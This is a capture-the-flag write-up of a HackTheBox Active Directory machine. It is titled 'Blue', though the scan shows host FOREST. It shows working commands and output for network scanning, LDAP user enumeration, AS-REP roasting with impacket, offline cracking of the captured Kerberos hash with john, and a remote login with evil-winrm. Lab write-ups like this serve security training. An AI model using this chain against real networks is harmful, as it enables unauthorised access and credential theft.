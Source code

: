 ```yaml
---
layout: post
title:  "Hackthebox - Blue writeup"
date:   2023-06-03 19:00:00 +0300
categories: HTB write-up
description:  "Hackthebox - HTB Blue writeup - How to solve this box"
---
```


## Recon

Let's start with the classic port scan.

```
sudo nmap -sS -sV 10.10.10.161 -oS nmap
```

which returns: 

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-14 14:24 EEST
Nmap scan report for 10.10.10.161
Host is up (0.22s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-08-14 11:48:00Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.54 seconds
```

On thing to note is the domain name (htb.local) as we will need this further on. 
Plenty of results immediately, but of course LDAP and Kerberos catches our attention. Let's try to enumerate users using LDAP search. 

```
ldapsearch -x -H ldap://10.10.10.161 -b "DC=htb,DC=local"
```

This produces too many results, so I will try to grep what is interesting for me. 

```
ldapsearch -x -H ldap://10.10.10.161 -b "DC=htb,DC=local" | grep userPrincipalName

userPrincipalName: Exchange_Online-ApplicationAccount@htb.local
userPrincipalName: SystemMailbox{1f05a927-89c0-4725-adca-4527114196a1}@htb.loc
userPrincipalName: SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}@htb.loc
userPrincipalName: SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}@htb.loc
userPrincipalName: DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB85
userPrincipalName: Migration.8f3e7716-2011-43e4-96b1-aba62d229136@htb.local
userPrincipalName: FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042@htb.loc
userPrincipalName: SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}@htb.loc
userPrincipalName: SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}@htb.loc
userPrincipalName: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}@htb.loc
userPrincipalName: HealthMailboxc3d7722415ad41a5b19e3e00e165edbe@htb.local
userPrincipalName: HealthMailboxfc9daad117b84fe08b081886bd8a5a50@htb.local
userPrincipalName: HealthMailboxc0a90c97d4994429b15003d6a518f3f5@htb.local
userPrincipalName: HealthMailbox670628ec4dd64321acfdf6e67db3a2d8@htb.local
userPrincipalName: HealthMailbox968e74dd3edb414cb4018376e7dd95ba@htb.local
userPrincipalName: HealthMailbox6ded67848a234577a1756e072081d01f@htb.local
userPrincipalName: HealthMailbox83d6781be36b4bbf8893b03c2ee379ab@htb.local
userPrincipalName: HealthMailboxfd87238e536e49e08738480d300e3772@htb.local
userPrincipalName: HealthMailboxb01ac647a64648d2a5fa21df27058a24@htb.local
userPrincipalName: HealthMailbox7108a4e350f84b32a7a90d8e718f78cf@htb.local
userPrincipalName: HealthMailbox0659cc188f4c4f9f978f6c2142c4181e@htb.local
userPrincipalName: sebastien@htb.local
userPrincipalName: santi@htb.local
userPrincipalName: lucinda@htb.local
userPrincipalName: andy@htb.local
userPrincipalName: mark@htb.local

```

and also grep for service accounts:

```
ldapsearch -x -H ldap://10.10.10.161 -b "DC=htb,DC=local" | grep 'Service Accounts'


# Managed Service Accounts, htb.local
dn: CN=Managed Service Accounts,DC=htb,DC=local
cn: Managed Service Accounts
distinguishedName: CN=Managed Service Accounts,DC=htb,DC=local
name: Managed Service Accounts
# Service Accounts, htb.local
dn: OU=Service Accounts,DC=htb,DC=local
ou: Service Accounts
distinguishedName: OU=Service Accounts,DC=htb,DC=local
name: Service Accounts
# svc-alfresco, Service Accounts, htb.local
dn: CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local
# Service Accounts, Security Groups, htb.local
dn: CN=Service Accounts,OU=Security Groups,DC=htb,DC=local

```

which returns svc-alfresco as a result. 

## User flag

I create a users.txt file with all the accounts I discovered. The first tactic is to query for users that have no pre-authentication enabled. You can google that out or read this fine [article](https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/) to find out more. In a nutshell, users with no pre-authentication enabled means these users don't have to prove they know their password to the Domain Controller. As a result these accounts can obtain AS-REP replies that contain TGT tickets and these replies are partly encrypted with the user's password. Now as an attacker you have the opportunity to crack it offline. 

There are tools to get the AS-REP replies and I am going to use impacket.

```
impacket-GetNPUsers -usersfile users.txt -request -format john -outputfile ASREPRoast.txt -dc-ip 10.10.10.161 'htb.local/'

cat ASREPRoast.txt 

$krb5asrep$svc-alfresco@htb.local@HTB.LOCAL:9745925cd49197ddcaa315d66e570f75$1ca0da77e1799e460b2818c58e3e98de2783b50dde571d6c18af1fe706662c6e2c573a545304769de6ebb630ff5d9e6c4fbf2d7df0323f9216ab03ba3bb5d49c7ee6b7caa7352fa370e20369e672f000eeec50dde6a6aa7ab89363030ea9b3c6364e1bd22eb45c0b78ef25bb2a544b0b4c797c0c5d2e89a3ce6a1134c645f2c3c3a1cb917df1a13328952f271209ddc8b4f024a80a345b675163a82b585b28f4cfa855bdf6af2f4c23349093d762e9de24c611261ae071fe61055c84fa38d2b68bb396f0ea017994c2e80bd776e24766e77fc2f27b6dc9352ad48749a2d1d7050bdd01c3a3b3
```

Now that we have the hashed password we can try to crack it with john ( this is the format we chose at the impacket command above).

```
john ASREPRoast.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

and now you have the user's password. Let's see what services there are to exploit...

hmm...

at this point I had to think a little bit. I did not scan for all the open ports during my nmap scan. I ran again the nmap scan with the ```-p-``` flag to scan all the ports and I got a new result: port 5985 open using HTTP, which [points us](https://www.speedguide.net/port.php?port=5985) to WinRM. 

Just googling *win-rm kali linux* shows me the evil-winrm tool. 

You can connect to the box using the following command:

```
evil-winrm -u svc-alfresco -p ********* -i 10.10.10.161
```

Now that you are connected, just look around and you'll find the user flag. 